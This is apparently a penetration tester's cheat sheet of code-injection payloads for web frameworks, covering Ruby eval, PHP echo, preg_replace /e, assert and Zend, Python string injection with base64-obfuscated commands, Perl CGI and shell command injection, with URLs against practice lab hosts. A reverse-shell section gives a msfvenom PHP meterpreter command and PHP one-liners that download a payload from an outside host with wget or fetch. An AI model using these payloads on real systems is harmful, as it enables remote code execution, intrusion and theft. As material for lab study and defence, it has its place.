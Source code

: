 # Web apps frameworks : Code Execution




## Ruby on rail
### eval

ActiveRecord (Ruby-on-Rails' most common data mapper)
Function eval with param. Add an error with "
````
POST: user[name]=bob&user[password]=pwd&user[admin]=true
@message = eval "\"Hello "+params['username']+"\""
username=hacker”+`uname -a`+” : échapper les + en %2B
http://ptl-f3335912-d8dff103.libcurl.so/?username=hacker%22%2B`uname%20-a`%2B%22
````

## php
### echo, print
Add a .system('ls'). in an echo $GET['name']
````
bob".system('ls')."bob
````
http://ptl-41df0d58-5b5fffd3.libcurl.so/?name=hacker”.system(‘ls’).”bob



### preg_replace()
php can filter thanks to preg_replace(). /e flag can be used.
Use arg in evaluation function
echo preg_replace("/([a-z]*)", "hacker", “you are a lamer’); => you are a hacker
echo preg_replace("/([a-z]*)/e", "hacker", “you are a lamer’); => eval “hacker”, replace hacker by system(‘ls’)
http://ptl-d47b409d-42207d73.libcurl.so/?new=system(‘ls’)&pattern=/lamer/e&base=Hello lamer

Use arg in assert
http://ptl-ac7d180e-5efc435d.libcurl.so/?name=hacker’.system(‘ls’).’ //


### php zend framework
````
?order=id;}//
?order=id);}//
?order=id));}//
Try to find the correct number of ) and }

Then ?order=id);}system('uname%20-a');//
````

### Reverse shell


    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.168 LPORT=443 R > revshell.php

    

    <?php echo (`whoami`); ?>
    <?php echo (`ls -l /tmp/`); ?>
    <?php echo `ifconfig`; ?>
    <?php echo `wget -O /upload/directory/payload.php http://192.168.168.168/blackwinter.php`; ?>
    <?php echo shell_exec("fetch -o /upload/directory/payload.php http://192.168.168.168/blackwinter.php"); ?>


## python
### print()
Check with " or '
````
Check :
http://vuln.com/hello/hacker” should generate error

Is python ? hacker”+str(True)+”test
http://vuln.com/hello/hacker"+str(True)+"test

Put code in str()
http://vuln.com/hello/hacker%22%2bstr(os.system('id'))%2b%22test

To get stdout, use os.popen('id').read()
http://vuln.com/hello/hacker%22%2bstr(os.popen('id').read())%2b%22test

If os is not loaded
http://vuln.com/hello/hacker%22%2bstr(__import__('os').popen('id').read())%2b%22test

Flask framework filter / after main path, encode it in base64
uname -a => __import__('base64').b64decode('dW5hbWUgLWE=')

http://ptl-7fc82aee-40987409.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode(%22dW5hbWUgLWE=%22)).read())%2b%22test

Note :
+ %2b
" %22

````


## cgi in perl called by jquery
$.getJSON("/cgi-bin/hello?name="+document.location.hash.substring(1), function (data) {
http://ptl-f2dc2643-c482a93d.libcurl.so//cgi-bin/hello?name=bob%27.`uname`.%27


## shell 
### Add a command with ;
thanks to php exec
http://ptl-e178378e-fe879fa4.libcurl.so/?ip=127.0.0.1;ls

### Execute with back quote
````
http://ptl-4938c1df-399c9d4e.libcurl.so/?ip=`cmd`  : no output but cmd executed :)
=> ping -c 2 `cmd`
````

### $(command) to run a shell command.
````
http://ptl-836d9020-8f3b7b55.libcurl.so/?ip=$(touch /tmp/bob)
=> ping -c 2 $(touch /tmp/bob)
````
